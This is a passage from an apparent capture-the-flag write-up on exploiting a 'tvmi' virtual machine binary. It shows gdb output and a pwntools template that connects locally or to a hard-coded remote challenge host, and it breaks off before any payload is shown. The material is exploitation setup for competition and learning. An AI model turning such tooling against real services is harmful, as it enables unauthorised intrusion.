 ```c
$8 = {
  i32 = 0x1f6ec010,
  i32_ptr = 0x7fed1f6ec010,
  i16 = {
    h = 0xc010,
    l = 0xc010
  }
}
```

Basically we don't know anything about remote target, so it would be good to gather some information - for example which `libc` version is on remote. Once we know `libc` version we can perform an attack.


### Setup

I will use pwn template which I'm usually using in pwn challenges, so we can switch between remote and local env easily. I've added `gdb` alias for printing vm's `esp` register value and also breakpoint which allow us to inspect some things before VM starts to execute code.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

elf = context.binary = ELF('./bin/tvmi', checksec=True)
# context.terminal = ["terminator", "-u", "-e"]
context.terminal = ["remotinator", "vsplit", "-x"]


def get_conn(argv=[], *a, **kw):
	host = args.HOST or '198.11.180.84'
	port = int(args.PORT or 6666)
	if args.GDB:
		return gdb.debug([elf.path] + argv, gdbscript=gdbscript, env=env, *a, **kw)
	elif args.REMOTE:
		return remote(host, port)
	else:
		return process([elf.path] + argv, env=env, *a, **kw)

gdbscript = '''
b *tvm_vm_run
alias sp = p *(vm.mem.registers+6)
continue
'''
gdbscript = '\n'.join(line for line in gdbscript.splitlines() if line and not line.startswith('#'))
env = {}

io = get_conn(argv=['./exp.vm'])
r = lambda x: io.recv(x)
rl = lambda: io.recvline(keepends=False)
ru = lambda x: io.recvuntil(x, drop=True)
cl = lambda: io.clean(timeout=1)
s = lambda x: io.send(x)
sa = lambda x, y: io.sendafter(x, y)
sl = lambda x: io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
ia = lambda: io.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)


if args.REMOTE:
```